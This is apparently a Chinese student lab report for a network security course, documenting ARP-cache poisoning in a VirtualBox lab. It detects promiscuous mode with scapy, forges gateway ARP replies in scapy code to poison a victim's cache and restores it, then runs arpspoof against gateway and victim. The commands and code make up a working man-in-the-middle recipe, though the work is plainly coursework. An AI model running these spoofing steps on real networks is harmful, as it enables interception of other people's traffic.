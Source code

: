 # Chap 0x04
> author: 807544076

## 实验要求

* [x] 实验一：检测局域网中的异常终端

* [x] 实验二：手工单步“毒化”目标主机的 ARP 缓存

* [x] 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

* [ ] 实验四（可选）基于 scapy 编写 ARP 投毒劫持工具

## 实验环境
宿主机：Windows 10 家庭版
虚拟机：Virtualbox
* kali 2022
* windows xp
* debain 10

## 实验准备
攻击者机器安装 `Scapy`

```bash
sudo apt update && sudo apt install python3 python3-pip 

pip3 install scapy
```

搭建网络拓扑

![](./img/network-pic.png)

## 实验过程
### 1. 检测局域网中的异常终端

在受害者主机上查看 `混杂模式` 是否开启

```bash
ip link show eth0
```

![](./img/v-show.png)

未显示 `PROMISC` 字样，说明混杂模式未开启

在攻击者主机上使用 scapy 发送 promiscping

```bash
sudo scapy
>>> ptk = promiscping("172.16.111.106")
```

结果：未响应

![](./img/no-promisc.png)

在受害者主机上开启混杂模式
```bash
sudo ip link set eth0 promisc on

ip link show eth0
```

![](./img/promisc-on.png)

再次在 scapy 上发送，得到结果

![](./img/have-promisc.png)

最后关闭混杂模式

```bash
sudo ip link set eth0 promisc off
```

### 2. 手工单步“毒化”目标主机的 ARP 缓存

在攻击者主机上用 scapy 构造 arp 请求，获取网关 MAC 地址

```py
ab = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst="172.16.111.1")

ab.show()
```

![](./img/get-mac.png)

发送请求并从回应中提取出网关的 MAC 地址

```py
re = srp(ab, timeout=2)

gw_mac = re[0][0][1].hwsrc
```

![](./img/get_mac.png)

伪造网关的 ARP 响应包
```py
ap = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.106",hwdst="08:00:27:45:b7:6b")

###[ Ethernet ]### 
  dst= 08:00:27:30:62:30
  src= 08:00:27:45:b7:6b # 攻击者 MAC
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= is-at
     hwsrc= 08:00:27:45:b7:6b
     psrc= 172.16.111.1 # 伪装成网关 IP
     hwdst= 08:00:27:45:b7:6b
     pdst= 172.16.111.106 # 发给受害者主机


sendp(ap)
```

![](./img/send-ap.png)

发送后查看受害者主机的 arp 缓存
```bash
ip neigh
```

![](./img/cheat.png)

发现网关 MAC 和攻击者主机 MAC 一致，投毒成功

接下来恢复受害者主机的 arp 缓存
用 scapy 构造

```py
rp=Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:a0:cc:a6",pdst="172.16.111.106")

sendp(rp)
```

再次查看受害者主机 arp 缓存
发现恢复成功

![](./img/restroe.png)

### 3. 使用自动化工具完成 ARP 投毒劫持实验

使用工具 `arpspoof`

对网关进行欺骗，伪装成受害者主机

```bash
sudo arpspoof -i eth0 -t 172.16.111.1 172.16.111.106
```

![](./img/a-g.png)

查看网关 arp 缓存，发现投毒成功

![](./img/gs.png)

再对受害者主机进行欺骗，伪装成网关

![](./img/a-v.png)

查看受害者主机 arp 缓存，发现投毒成功

![](./img/vs.png)

用受害者主机 ping 网关

![](./img/send.png)

在攻击者主机抓包，成功捕获

![](./img/success.png)


## 遇到的问题及解决
使用 scapy 报错 `operation not permitted`
解决：使用 sudo 提升权限

scapy 发出的包未到达受害者主机
解决：在 `ARP()` 前添加 `Ether()` 项即可

## 参考资料
[arpspoof 工具](https://developer.aliyun.com/article/666694)

[老师的实验教程](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)